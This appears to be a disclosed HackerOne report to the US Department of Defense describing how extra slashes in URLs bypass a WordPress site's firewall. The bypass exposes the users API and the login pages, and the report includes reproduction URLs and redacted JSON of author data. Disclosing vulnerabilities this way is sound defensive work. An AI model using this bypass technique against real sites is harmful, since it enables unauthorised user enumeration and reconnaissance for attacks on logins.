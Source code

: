 # Firewall rules for ████████ can be bypassed to leak site authors

## Report Details
- **Report ID**: 743643
- **URL**: https://hackerone.com/reports/743643
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-11-21T21:00:46.178Z
- **Disclosed**: 2020-05-14T16:54:01.416Z

## Reporter
- **Username**: nrockhouse
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
████ is a WordPress application that has several endpoints locked behind firewall, such as login screen and author names, but it can be bypassed.

**Description:**
By using additional slashes in the URL, I can bypass the firewall rules to display some WordPress information. Interestingly, these bypass only work for GET requests, but not POST requests. I have listed some of the endpoints below.

## Impact
Display names of site authors.

## Step-by-step Reproduction Instructions

1. https://████████/wp-json/wp/v2/users (403 Forbidden) -> https://██████████/wp-json/wp/v2//users (200 OK)
2. https://██████/wp-login.php (403 Forbidden) -> https://██████/wp-login.php/ (200 OK) (Unfortunately POST requests are still blocked with this bypass, so testing passwords isn't possible)
3. https://█████/wp-login.php?action=lostpassword (403 Forbidden) -> https://███████/wp-login.php/?action=lostpassword (200 OK) (POST requests kinda worked with this endpoint, it showed "Access Denied" but the message came from WordPress and not the WAF/web server, which meant the request went through)

## Product, Version, and Configuration (If applicable)
WordPress

## Suggested Mitigation/Remediation Actions
Fix the firewall rules.

## Proof of Concept
Output from wp-json/wp/v2//users
``[{"id":4,"name":"████","url":"http:\/\/cloudlakellc.com","description":"","link":"https:\/\/██████████\/author\/█████████\/","slug":"██████████","avatar_urls":{"24":"https:\/\/secure.gravatar.com\/avatar\/█████████?s=24&d=mm&r=g","48":"https:\/\/secure.gravatar.com\/avatar\/█████?s=48&d=mm&r=g","96":"https:\/\/secure.gravatar.com\/avatar\/███?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"https:\/\/████████\/wp-json\/wp\/v2\/users\/4"}],"collection":[{"href":"https:\/\/█████████\/wp-json\/wp\/v2\/users"}]}},{"id":6,"name":"█████████","url":"","description":"","link":"https:\/\/█████\/author\/███\/","slug":"███","avatar_urls":{"24":"https:\/\/secure.gravatar.com\/avatar\/████?s=24&d=mm&r=g","48":"https:\/\/secure.gravatar.com\/avatar\/████████?s=48&d=mm&r=g","96":"https:\/\/secure.gravatar.com\/avatar\/████████?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"https:\/\/███████\/wp-json\/wp\/v2\/users\/6"}],"collection":[{"href":"https:\/\/████████\/wp-json\/wp\/v2\/users"}]}},{"id":2,"name":"████████","url":"","description":"","link":"https:\/\/█████\/author\/████████\/","slug":"███████","avatar_urls":{"24":"https:\/\/secure.gravatar.com\/avatar\/█████?s=24&d=mm&r=g","48":"https:\/\/secure.gravatar.com\/avatar\/█████████?s=48&d=mm&r=g","96":"https:\/\/secure.gravatar.com\/avatar\/███?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"https:\/\/████\/wp-json\/wp\/v2\/users\/2"}],"collection":[{"href":"https:\/\/██████████\/wp-json\/wp\/v2\/users"}]}}]``

## Impact

Obtain details about the site authors.

## Attachments
No attachments
